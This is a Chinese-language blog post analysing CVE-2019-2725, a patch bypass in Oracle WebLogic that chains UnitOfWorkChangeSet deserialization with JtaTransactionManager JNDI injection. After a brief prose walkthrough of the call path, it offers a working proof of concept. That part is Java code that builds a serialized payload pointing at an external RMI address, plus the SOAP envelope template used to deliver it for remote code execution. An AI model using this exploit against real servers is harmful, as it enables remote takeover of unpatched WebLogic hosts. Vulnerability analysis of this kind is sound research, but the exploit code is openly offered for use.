






# # CVE-2019-2725 二次反序列化 jndi 注入分析 - Afant1 - 博客园

> 原文：[`www.cnblogs.com/afanti/p/10802022.html`](https://www.cnblogs.com/afanti/p/10802022.html)

## 前言

这个漏洞现在绕过补丁的 poc，我知道有三种, 这篇文章主要分析第二个 poc：

1.  [UnitOfWorkChangeSet 二次反序列化通过 7u21 gadget 触发 rce](https://www.t00ls.net/thread-51008-1-1.html)
2.  UnitOfWorkChangeSet 二次反序列化通过 JtaTransactionManager 实现 jndi 注入
3.  FileSystemXmlApplicationContext 这个类实现 RCE
    其中 exp 影响也是递增的

*   第一个 Poc 只能用于 10.3.6 版本（服务器环境必须是 7u21）。
*   第二个 poc 能用于 10.3.6，(jdk 版本在 1.8 版本以下)。
*   第三个 poc 则可通杀 10.3.6 和 12.1.3 版本（jdk 版本不受限制）这个 poc 就不放出了:)

## 漏洞分析

这个 UnitOfWorkChangeSet 类的构造函数传入 byte，然后进行二次反序列化，漏洞代码位置如下

ServerAddressingHandler 和 AsyncResponseHandler 需要将 poc 设置 addressing.RelatesTo 和 addressing.Action 才能绕过，到 WorkAreaServerHandler 来处理，漏洞触发点也是在这个 Handler,跟进去看一下。

跟进 handleRequest 方法，传入构造好的 poc，交给 WorkContextXmlInputAdapter 方法处理

跟进去，来到了漏洞触发点，看一下调用栈。

漏洞跟到了 UnitOfWorkChangeSet 这个类，传入 JtaTransactionManager 这个类的 bytes,执行这个类的 readObject 方法，跟进去。

调用了 initUserTransactionAndTransactionManager 方法，继续跟。

userTransactionName 的值是我们 poc 中的恶意的 rmi 地址

继续跟的话，在这里调用 lookup 方法

最终导致 RCE


## POC 构造

给位看官看到这里可能已经不耐烦了，还不给 poc 吗？？？
command 为 rmi 构造的 RCE 的命令，这里不用赘述，懂的人自然知道怎么构造。
POC 如下：

```
public class exp
{
    public static void main( String[] args ) throws Exception {
        String command ="rmi://121.195.170.127:9999/aa";
        JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
        byte[] bytes = ObjectToByte(jtaTransactionManager);

        objectXmlEncoder(bytes , "payload.xml");
    }
    private static byte[] ObjectToByte(Object obj) {
        byte[] bytes = null;
        try {
            // object to bytearray
            ByteArrayOutputStream bo = new ByteArrayOutputStream();
            ObjectOutputStream oo = new ObjectOutputStream(bo);
            oo.writeObject(obj);

            bytes = bo.toByteArray();

            bo.close();
            oo.close();
        } catch (Exception e) {
            System.out.println("translation" + e.getMessage());
            e.printStackTrace();
        }
        return bytes;
    }

    public static void objectXmlEncoder(Object obj,String fileName)
            throws FileNotFoundException,IOException,Exception
    {

        java.io.File file = new java.io.File(fileName);
        if(!file.exists()){
            file.createNewFile();
        }
        java.io.BufferedOutputStream oop = new java.io.BufferedOutputStream(new java.io.FileOutputStream(file));
        java.beans.XMLEncoder xe = new java.beans.XMLEncoder(oop);
        xe.flush();
        //写入 xml
        xe.writeObject(obj);
        xe.close();
        oop.close();
    }
} 
```

将生成的 payload.xml 内容拷贝到这里就 ok 了

```
<soapenv:Envelope   >   <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext >      
<java><class><string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string><void>
需要拼接的部分</void></class>
</java>
 </work:WorkContext>
 </soapenv:Header>
 <soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope> 
```

最后看一下复现情况

参考链接：
[廖老板的文章](https://mp.weixin.qq.com/s/tWgRhtFtabL-ceLaRWlY7g)
[畅师傅的文章](https://balis0ng.com/post/lou-dong-fen-xi/weblogic-wls9-asynczu-jian-rcelou-dong-fen-xi)